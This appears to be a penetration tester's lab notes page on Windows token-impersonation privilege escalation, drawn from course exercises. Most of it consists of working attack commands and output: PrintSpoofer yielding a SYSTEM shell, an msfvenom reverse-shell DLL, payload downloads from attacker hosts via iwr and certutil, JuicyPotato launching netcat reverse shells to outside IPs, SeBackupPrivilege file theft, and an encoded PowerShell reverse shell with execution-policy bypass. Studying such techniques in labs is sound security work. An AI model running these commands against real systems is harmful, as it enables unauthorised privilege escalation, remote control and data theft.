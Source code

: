 # Token Impersonation

```
whoami /priv
```



Doing further research on token impersonation vulnerabilities, you will see a number of different exploits exist. These have whimsical names such as Hot Potato, Rotten Potato, Lonely Potato, Juicy Potato, etc. You will be able to decide on which "Potato" better suits your need depending on the version of the target system. While some of these exploits will run on the target system, others may require you to set up a fake server on the same network.



{% hint style="info" %}
Other privileges that may lead to privilege escalation are _SeBackupPrivilege_, _SeAssignPrimaryToken_, _SeLoadDriver_, and _SeDebug_. In this section, we'll closely inspect privilege escalation vectors in the context of _SeImpersonatePrivilege_.
{% endhint %}

## FullPowers.exe

Give more privileges with this tool [https://github.com/itm4n/FullPowers](https://github.com/itm4n/FullPowers)

## PWK2024&#x20;

## SeImpersonatePrivilege

{% code title="" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~$ wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe 
...
2022-07-07 03:48:45 (16.6 MB/s) - ‘PrintSpoofer64.exe’ saved [27136/27136]

kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```
C:\Users\dave> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\dave> iwr -uri http://192.168.119.2/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
iwr -uri http://192.168.119.2/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> .\PrintSpoofer64.exe -i -c powershell.exe
.\PrintSpoofer64.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
nt authority\system
```
{% endcode %}

## Capstone exercise 16.3.2 Q2

{% code title="Created payload to be copied on the victim" overflow="wrap" lineNumbers="true" %}
```
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.45.218 lport=5555 -f dll > EnterpriseServiceOptional.dll
 
```
{% endcode %}

{% code title="Download and restart service" overflow="wrap" lineNumbers="true" %}
```
PS C:\Services> iwr -uri http://192.168.45.218/EnterpriseServiceOptional.dll -Outfile EnterpriseServiceOptional.dll     
PS C:\Services> Restart-Service EnterpriseService                                                                       PS C:\Services>     
```
{% endcode %}

### SeBackupPrivilege

Used the steps from here to copy files and enable SeBackupPrivilege to copy flag.txt

{% code title="Enable SeBackupPrivilege and copy flag.txt" overflow="wrap" lineNumbers="true" %}
```
iwr -uri http://192.168.45.218/SeBackupPrivilegeUtils.dll -Outfile SeBackupPrivilegeUtils.dll
iwr -uri http://192.168.45.218/SeBackupPrivilegeCmdLets.dll -Outfile SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Set-SeBackupPrivilege
Get-SeBackupPrivilege
Copy-FileSeBackupPrivilege c:\users\enterpriseadmin\Desktop\flag.txt c:\users\enterpriseuser\flag.txt
```
{% endcode %}

## Old

We will need to check the list of [CLSID](http://ohpe.it/juicy-potato/CLSID/) to use the exploit.



**Exploit and CLSID list**:

```
https://github.com/ohpe/juicy-potato
```

{% code overflow="wrap" %}
```
certutil.exe -urlcache -f http://10.10.XX.XX/JuicyPotato.exe C:\Temp\JuicyPotato.exe
certutil.exe -urlcache -f http://10.10.XX.XX/nc.exe C:\Temp\nc.exe
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\inetpub\drupal-7.54\nc.exe -e cmd.exe 10.10.XX.XX 555" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}

or without a CLSID
 .\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\Users\merlin\Desktop\nc.exe -e cmd.exe 10.10.16.22 5555" -t * 
```
{% endcode %}

## SeRestorePrivilege

check this walk-through here [https://www.youtube.com/watch?v=1nRzABu6eKU](https://www.youtube.com/watch?v=1nRzABu6eKU) and use this tool [https://github.com/xct/SeRestoreAbuse](https://github.com/xct/SeRestoreAbuse)&#x20;

Encode PS reverse oneliner to UTF-16LE + base64

```
.\SeRestoreAbuse.exe "cmd /c powershell -exec bypass -enc <base64 encoded reverse shell here>"
```

